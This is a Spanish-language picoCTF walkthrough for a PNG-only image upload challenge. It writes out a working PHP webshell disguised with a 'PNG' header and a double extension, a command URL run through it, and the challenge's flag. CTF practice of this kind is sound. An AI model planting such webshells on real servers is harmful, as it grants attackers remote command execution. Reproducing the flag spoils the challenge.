 
**Reto:**
-Utilizar un archivo estropeado para acceder a la bandera.

**Descripción:**
-I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:58215/)!

**Solución:**
Utilizar un programa php pretendiendo ser un png para ejecutar comandos en la dirección de la página y obtener el archivo donde se guarda la bandera.
-Crear un archivo llamado 'webshell.png.php' con el siguiente código.
```
PNG
<?php 
if(isset($_GET['cmd'])){
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
}
?>

```
-Abrir la página.
-Ingresar el archivo a la pagina.
-Cambiar la dirección de la pagina a:
```
http://atlas.picoctf.net:56540/uploads/webshell.png.php?cmd=ls%20..
```
-Esta acción muestra los archivos y directorios de la pagina.
-Entrar a la dirección del primer archivo en la lista.
-Una vez en esta página, la bandera aparecera en la ventana.

El resultado es: **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}**.

**Notas adicionales:**
-PNG en el inicio del archivo es usado para hacer creer al verificador que un archivo es un png.
-Las instrucciones pueden ser encontradas si se siguen los directorios del archivo 'robots.txt'.

**Referencias:**
http://atlas.picoctf.net:58215/
https://www.php.net/manual/es/features.commandline.options.php